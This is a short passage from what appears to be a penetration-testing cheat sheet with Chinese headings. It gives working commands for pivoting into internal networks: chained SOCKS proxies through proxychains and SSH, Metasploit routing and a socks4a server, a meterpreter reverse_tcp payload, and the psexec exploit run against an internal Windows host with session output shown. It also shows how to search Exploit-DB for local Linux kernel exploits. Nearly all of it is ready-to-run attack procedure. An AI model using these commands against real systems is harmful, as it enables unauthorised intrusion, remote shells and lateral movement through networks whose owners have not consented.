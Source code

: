 Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2

Add socks4 127.0.0.1 1081 in /etc/proxychains.conf

proxychains commands target

# 使用 metasploit 进行穿透

route add X.X.X.X 255.255.255.0 1

use auxiliary/server/socks4a

run

proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp 
LHOST=IP LPORT=443 RHOST=IP E


或者

	# https://www.offensive-security.com/metasploit-unleashed/pivoting/

meterpreter > ipconfig

IP Address  : 10.1.13.3

meterpreter > run autoroute -s 10.1.13.0/24

meterpreter > run autoroute -p

10.1.13.0          255.255.255.0      Session 1

meterpreter > Ctrl+Z

msf auxiliary(tcp) > use exploit/windows/smb/psexec

msf exploit(psexec) > set RHOST 10.1.13.2

msf exploit(psexec) > exploit

meterpreter > ipconfig

IP Address  : 10.1.13.2

基于 CSV 文件查询 Exploit-DB

git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database

./searchsploit –u

./searchsploit apache 2.2

./searchsploit "Linux Kernel"


cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
